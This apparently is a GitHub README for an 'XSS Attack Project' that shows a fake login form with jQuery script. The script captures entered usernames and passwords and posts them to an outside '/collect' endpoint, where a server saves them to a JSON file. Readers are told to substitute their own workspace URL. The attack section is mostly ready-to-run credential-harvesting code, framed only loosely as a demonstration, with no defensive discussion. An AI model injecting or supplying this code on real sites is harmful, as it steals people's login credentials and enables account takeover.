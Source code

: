 # XSS Attack Project

## Project Description
This project demonstrates a Cross-Site Scripting (XSS) attack using a simple login form. The server collects login data and saves it to a JSON file.

## Table of Contents

1. [Installation](#installation)
2. [How to run the code](#how-to-run-the-code)
3. [Client Side Code](#client-side-code)
4. [Contribution Guidelines](#contribution-guidelines)
5. [License Information](#license-information)

## Installation

* Ensure you have Node.js installed on your machine. You can download it from [Node.js](https://nodejs.org/).
* Clone the repository to your local machine.
* Navigate to the project directory.
* Install the dependencies by running the following command:
  ```bash
  npm install
  ```

## How to run the code

* Start the server by running the following command:
  ```bash
  node server.js
  ```

## Client Side Code

```html
<form id="loginForm">
<label for="username">Username:</label>
<input type="text" id="username" name="username" required><br><br>
 
<label for="password">Password:</label>
<input type="password" id="password" name="password" required><br><br>
 
<button type="button" id="loginButton">Login</button>
</form>
 
<script>
const apiUrl = 'https://unearthly-hex-679pp459qqgh574r-8001.app.github.dev/collect';

        function sendLoginToAPI(event) {
            event.preventDefault();

            alert("Login button clicked!");

            const username = $('#username').val();
            const password = $('#password').val();

            if (!username || !password) {
                alert("Both username and password are required.");
                return;
            }

            $.ajax({
                url: apiUrl,
                method: 'POST',
                contentType: 'application/json',
                data: JSON.stringify({ username: username, password: password }),
                success: function(data) {
                    console.log('Login response:', data);
                    alert('Login successful!');
                },
                error: function(xhr, status, error) {
                    console.error('Login failed:', error);
                    alert('Invalid username or password.');
                }
            });
        }

        $('#loginButton').on('mousedown', sendLoginToAPI);
</script>
```

Change your workspace name to your own workspace name in the apiUrl variable.

## Contribution Guidelines

1. Fork the repository.
2. Create a new branch for your feature or bugfix.
3. Commit your changes with a descriptive message.
4. Push your changes to your forked repository.
5. Create a pull request to the main repository.

## License Information

This project is licensed under the ISC License.
